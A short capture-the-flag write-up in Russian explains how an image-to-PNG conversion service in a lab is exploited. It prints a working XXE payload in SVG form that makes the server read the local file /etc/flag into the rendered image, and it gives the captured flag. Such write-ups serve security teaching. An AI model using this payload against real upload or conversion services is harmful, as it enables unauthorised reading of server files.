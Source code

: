 Неужели появился хороший сервис конвертации картинок в PNG? Нет.

url: [http://outdated:8003/](http://outdated:8003/)

Имеем сайт с функциональностью конвертации файлов в формат PNG. В глаза бросается форма загрузки файлов. Первой приходит мысль о загрузке php-шела, но т.к. мы не знаем пути загрузки файла, то этот вариант сразу отбрасывается (тем более, что бекенд написан не на php)

При попытке загрузки невалидного файла мы узнаем, какие форматы изображений можно загружать на сервер для конвертации: png, jpg, jpeg, bmp, svg, gif

SVG - это подвид XML. Мы можем попробовать эксплуатацию XXE для подгрузки локального файла следующим образом:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!ENTITY xxe SYSTEM "/etc/flag">
]>
<svg width="100%" height="100%" viewBox="0 0 300 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">&xxe;</text>
</svg>
```

Прежде чем провести конвертацию svg файла в png, конвертер подгрузит файл `/etc/flag`, он будет отрендерен в png файле

`flag{XXE_1N_SVG_1S_0LD_BUT_G0LD}`
